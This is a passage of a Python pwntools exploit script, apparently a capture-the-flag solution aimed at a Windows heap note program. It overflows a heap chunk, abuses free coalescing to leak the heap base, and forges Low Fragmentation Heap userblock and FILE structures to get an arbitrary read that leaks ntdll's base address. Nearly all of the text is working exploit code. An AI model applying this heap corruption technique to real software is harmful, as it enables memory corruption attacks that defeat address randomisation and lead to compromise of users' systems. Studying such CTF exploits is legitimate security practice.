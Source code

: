 ```python
	) 
	open_file()
	read_file(2, 0x268)
	edit(2, "A" * 0x268 + p64(fake_entry)[:6], False)
	free(3)         # free coalesce mechanism also free'ing chunk 4
	alloc(3, 0x200) # set Flink and Blink at chunk 4

	heap_base = u64(show(4)[:8].ljust(8, p8(0))) - 0x150
	if heap_base == 0:
		log.info("Heap address not leaked")
        return

	# default target is ntdll on _HEAP->LockVariable->Lock
	if cursor == 0:
		cursor = heap_base + 0x2c0
		
	# log.info("&_HEAP = 0x%016x" % heap_base)

	# make LFH to allocate new Userblock in chunk 4
	for _ in range(0x14):
		open_file()

	fake_HEAP_USERDATA_HEADER = ""
	fake_HEAP_USERDATA_HEADER += p64(heap_base + 0xbcd0)   # +0x000 SubSegment
	fake_HEAP_USERDATA_HEADER += p64(heap_base + 0x12e40)  # +0x008 Reserved
	fake_HEAP_USERDATA_HEADER += p32(0xc)                  # +0x010 SizeIndexAndPadding
	fake_HEAP_USERDATA_HEADER += p32(0xf0e0d0c0)           # +0x014 Signature
	fake_HEAP_USERDATA_HEADER += p64(0) * 5                # I couldn't leak other values

	fake_FILE = ""
	fake_FILE += p64(0) * 2              # _HEAP_ENTRY
	fake_FILE += p64(cursor)             # cursor of SEEK_CUR
	fake_FILE += p64(cursor & ~0xfff)    # base address
	fake_FILE += p32(0x800)              # remaining file size
	fake_FILE += p32(0x2041)             # I dunno what they are
	fake_FILE += p64(0x17)				
	fake_FILE += p64(0x1000)
	fake_FILE += p64(0)
	fake_FILE += p64(0xffffffffffffffff)
	fake_FILE += p64(0xffffffff)
	fake_FILE += p64(0)
	fake_FILE += p64(0)

	for_leak = ""
	for_leak += fake_HEAP_USERDATA_HEADER
	for_leak += fake_FILE * (0x1000 / len(fake_FILE))

	edit(4, for_leak)
	alloc(5, SIZE)
	read_file(5,8)
	result = u64(show(5)[:8].ljust(8, p8(0)))

	sla("Your choice: ", str(6))
	hi.close()
	context.log_level = "info"
	return result


ntdll_base = leak() - 0x163d70
log.info("ntdll = 0x%016x" % ntdll_base)
```
